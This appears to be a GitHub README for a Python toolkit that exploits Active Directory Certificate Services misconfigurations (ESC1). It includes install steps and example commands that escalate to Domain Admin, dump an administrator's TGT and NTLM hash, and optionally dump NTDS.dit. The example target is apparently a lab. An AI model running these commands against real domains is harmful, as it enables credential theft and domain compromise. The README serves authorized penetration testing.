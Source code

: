## ADCS-Exploitation-Toolkit

A Python-based toolkit for streamlined exploitation of Active Directory Certificate Services (ADCS) vulnerabilities. 
Built for security researchers and penetration testers, this repository automates the exploitation of ADCS misconfigurations in authorized environments.

- - - 

## Installation

Clone the repository and install dependencies:

```bash
git clone https://github.com/dr34mhacks/ADCS-Exploitation-Toolkit
cd ADCS-Exploitation-Toolkit
pip3 install -r requirements.txt

```

## Exploitation Scripts

**ESC1 Exploitation Script**: Automates the ESC1 vulnerability, where misconfigured certificate templates allow arbitrary User Principal Names (UPNs), allowing privilege escalation to Domain Admin.
This script will find the ESC1 vulnerable template and auto simulate the exploitation by auto requesting the `.pfx` of administrator and dumping their TGT and NTLM Hash. The script also verify the NTLM hash via `nxc` tool.


### Usage 

<details>
<summary><b>Arguments</b></summary>
 <br>
<pre>
 -u, --username: Domain username
 -p, --password: Password for the user
 -d, --domain: Domain name
 --dc-ip: Domain controller IP address
 --target-hostname: Target hostname for certipy req (optional)
 --target-upn: Target UPN for the certificate (optional, defaults to administrator, e.g., administrator@retro.vl).
 --template: Manually specify vulnerable template (optional)
 --ca: Manually specify CA name (optional, e.g., retro-DC-CA).
 --debug: Enable verbose Certipy output (optional, default: False).
 --show-commands: Show executed commands (optional, default: False).
 --dump-ntds: Dump NTDS.dit using NetExec (optional, default: False).
</pre>
</details>


**Basic run**

```
 python3 esc1.py -u 'BANKING$' -p 'sidhere' -d retro.vl --dc-ip 10.10.125.203
```

<img width="1134" alt="image" src="https://github.com/user-attachments/assets/7a00d395-e253-43c1-91eb-bc87b3a52ee8" />

**With NTDS Dump**

```bash
python3 esc1.py -u 'BANKING$' -p 'sidhere' -d retro.vl --dc-ip 10.10.125.203 --dump-ntds
```

<img width="1134" alt="image" src="https://github.com/user-attachments/assets/eeca07d7-e00e-40f9-b8e1-6bc4474ae87f" />


## Disclaimer

This toolkit is intended for educational and authorized penetration testing purposes only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical. The author is not responsible for any misuse or damage caused by these tools. Always obtain proper authorization before testing.
